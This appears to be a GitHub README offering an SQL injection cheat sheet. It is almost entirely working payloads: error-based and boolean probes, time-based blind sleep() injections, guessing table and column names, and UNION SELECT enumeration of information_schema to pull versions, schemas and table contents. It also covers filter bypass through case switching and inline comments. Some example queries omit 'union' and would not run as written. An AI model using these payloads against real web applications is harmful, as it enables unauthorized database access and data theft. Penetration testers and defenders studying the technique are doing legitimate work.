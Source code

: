 ## SQL-Injection-cheat-sheet

* First try to figure out the vulnerable parameter

__NOTE: If it's a GET request don't forget to url encode the characters.__

```
param='  --> try to get error

param="   --> try to get error

param=' or 1=1 --> try if it works

param=' or 1=0  --> check if it returns nothing

param=' and 1=1  --> check if this works or produces error
```

Try with blind injection payloads if above commands does not produce error

```

' or sleep(2) and 1=1#  --> try get delay, sleep only operates when all other conditions are true and there is a requirement to operate it.

' or sleep(2)#  --> try get delay

admin' and sleep(2)#  --> will delay only if the user admin exists

' union select sleep(2),null#  --> check if it produces delay

' union select sleep(2),null,null,null,null#  --> check if it produces delay, check for different number of columns

```


Try if above queries work by appending comment at the end

```
param=' or 1=1#  --> try if it works

param=' or 1=1 -- one space needed  --> try if it works

param=' or 1=1 //  --> try if it works

param= or 1=1#  --> try if it works

param=and or 1=1#  --> try if it works

param=' or 1=1-- sd  --> try if it works

' AND (select 1)=1 <-- This should be TRUE Response -- subselect supported

```

* Now that we know the vulnerable parameter, let's try guessing the table name:

```

' AND (select 1 from admin limit 0,1)=1 <-- FALSE

' AND (select 1 from users limit 0,1)=1 <-- TRUE  ======> Table found 'users'
```


* Guessing Columns:

```
' AND (select substring(concat(1,pass),1,1) from users limit 0,1)=1 <-- FALSE

' AND (select substring(concat(1,password),1,1) from users limit 0,1)=1 <-- TRUE    =====> Column 'password' found.
```


* Now determine number of columns in the current table

```
param=' or 1=1 order by 1#

param=' or 1=1 order by 10#
```

let say there are 3 columns

* Now determine vulnerable columns or columns which are visible

```
param=' or 1=0 union select null,null,null# --> if it produces no error then try

param=' or 1=0 union select 1,2,3#  --> check which number shows in web page
```

Else try

```
param=' or 1=1 union select table_name,null,null from information_schema.tables#

if it produces error try table_name at other positions
```

Now, lets say column 1,2 are shown in web page

* To futher enumerate

```
param=' or 1=0 union select table_schema,null,null from information_schema.columns#  --> display all database name

Note 1=0 in above query to show only databases

param=' or 1=0 union select version(),null,null from information_schema.columns#  --> retrieve version

param=' or 1=0 union select @@version,null,null from information_schema.columns#  --> retrieve version in mssql

param=' or 1=0 union select substring(version(),1,1)=1,null,null from information_schema.columns#  --> return true if version is 1.x.x

param=' or 1=0 union select substring(version(),1,1)=5,null,null from information_schema.columns#  --> return true if version is 5.x.x

param=' or 1=0 union select substring(version(),3,1)=2,null,null from information_schema.columns#  --> return true if version is 5.2.x

param=' or 1=0 union select table_name,null,null from information_schema.columns#  --> display all table name

param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'#  --> display tables inside public database

param=' or 1=1 select column_name,null,null from information_schema.columns where table_schema='public' and table_name='info'#  --> display all columns of info table

param=' or 1=1 select table_name as table,column_name as column,null from information_schema.columns#
```

Let say the database name is `public` and table name is `info` with two columns in it `id` and `name`.


```
param=' or 1=0 union select id,null,null from public.info#  --> display id column from table "info"

param=' or 1=0 union select id,name,null from public.info#  --> display id and name column from table "info"

param=' or 1=0 union select id,name,null from public.info where id='papa'#  --> display id and name of 'papa'
```


* BYPASSING filters

we can use case switching or commenting to bypass basic filters

```
param=' or 1=0 UniOn selEct id,null,null FroM public.info#

param=' or 1=0 un/**/ion sele/**/ct id,null,null fr/**/om public.info# works in mssql
```

* For Oracle DB

Oracle does not have information schema and thus we need some alternatives for it. The link below can be helpful.

https://stackoverflow.com/questions/8739203/oracle-query-to-fetch-column-names


* For Adanced exploitation, we may use sqlmap

## Useful Resources

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

http://garage4hackers.com/showthread.php?t=1990


